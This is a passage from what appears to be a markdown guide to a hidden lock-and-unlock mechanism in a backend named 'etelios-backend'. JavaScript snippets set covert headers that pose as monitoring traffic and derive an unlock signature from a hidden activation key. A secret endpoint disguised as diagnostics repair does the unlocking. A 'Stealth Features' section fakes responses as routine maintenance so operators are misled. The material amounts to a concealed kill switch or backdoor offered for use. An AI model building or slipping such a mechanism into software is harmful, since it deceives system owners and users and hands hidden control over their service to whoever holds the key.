 ### **Step 2: Set Hidden Headers**
```javascript
const headers = {
  'X-Internal-Service': 'monitoring-agent',
  'X-System-Health': 'check-request',
  'X-Debug-Mode': 'enabled',
  'X-User-Id': userId,
  'X-Tenant-Id': tenantId
};
```

### **Step 3: Execute Activation**
```javascript
const response = await axios.get(activationUrl, { headers });
// Response looks like normal health check
```

---

## **🔓 Deactivation Sequence**

### **Step 1: Generate Unlock URL**
```javascript
const timestamp = Date.now();
const signature = crypto
  .createHash('sha256')
  .update(timestamp + HIDDEN_ACTIVATION_KEY)
  .digest('hex')
  .substring(0, 16);

const unlockUrl = `${baseUrl}/api/internal/diagnostics/repair?_unlock=1&_lock=${lockId}&_t=${timestamp}&_s=${signature}&_u=${userId}`;
```

### **Step 2: Execute Unlock**
```javascript
const response = await axios.post(unlockUrl, {}, { headers });
// Response looks like normal system repair
```

---

## **🕶️ Stealth Features**

### **Disguised Responses**
All responses are disguised as normal system responses:

#### **Activation Response**
```json
{
  "service": "etelios-backend",
  "status": "maintenance_mode",
  "timestamp": "2024-01-15T10:30:00Z",
  "version": "1.0.0",
  "uptime": 12345,
  "message": "System undergoing scheduled maintenance",
  "estimatedDuration": "2-4 hours"
}
```
